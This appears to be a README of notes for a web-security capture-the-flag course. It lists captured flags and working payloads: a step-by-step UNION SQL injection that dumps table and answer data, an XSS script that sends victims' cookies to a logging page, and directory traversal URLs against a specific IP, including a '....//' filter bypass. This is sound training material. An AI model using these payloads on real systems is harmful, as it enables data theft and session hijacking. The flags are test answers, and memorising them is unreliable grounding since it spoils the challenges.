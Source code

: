 EditThisCookie
ModHeader
Google Dev > Network > Right Click Name > Copy > To CURL

Flags:
flag{p011yw09_t0_5h311b@g}
flag{1_4m_7h3_g0d_0f_cr@f75m4n5h1p}
flag{1m_7#3_brv73_w@2210r_0f_ju571c3}
flag{h0w_d1d_y0u_g3t_th3_@n5w3r5s?}
flag{y0u_h@v3_0bt@ln3d_Za1n0nLyfL@9}
flag{M3_w@n7_c0ok1e_m3_5teal_co0ki3}
flag{t#3_dr3@m_15_r3@1}
flag{jv5t_h0w_m@ny_f1173rs_@r3_th3r3?!}

Header Tampering:
Cookies, User-Agent

SQLi:
1. Guess amount of columns within table: ' order by 5 #
2. Find which columns are being printed, 1=0 is to set 1st table to all false and to reduce results: ' and 1=0 union select 1,2,3,4,5 #
3. Get database name (optional): ' and 1=0 union select 1,2,3,database(),5 #
4. Get table names: ' and 1=0 union select 1,2,3,table_name,5 from information_schema.tables where table_type='BASE TABLE' limit 6#
5. Get column names: ' and 1=0 union select 1,2,3,column_name,5 from information_schema.columns where table_name='questionBank' limit 6#
6. Get answers: ' and 1=0 union select 1,2,3,answer,5 from questionBank limit 6#

Table Name: items; Column Names: name, price
' and 1=0 union select 1,2,table_name from information_schema.tables where table_type='BASE TABLE' and table_name like '%items%' #

XSS:
Force someone to visit a page and to dump his cookies
<script>document.location="log.php?uid=DYodw0Ibxv7Og3z78go0&description="
 + document.cookie</script>

Local File Inclusion:
http://128.199.224.160:3006/town.php?player=kahwi_leonard

Directory Traversal:
http://128.199.224.160:3006/town.php?player=../../../../../miami/lebron_james
"../" -> "....//" basic defence
http://128.199.224.160:3007/town.php?file=....//....//....//....//....//....//....//....//....//spurs/gregg_popovich

github.com/tanhengyeow/ctf101-web-2017

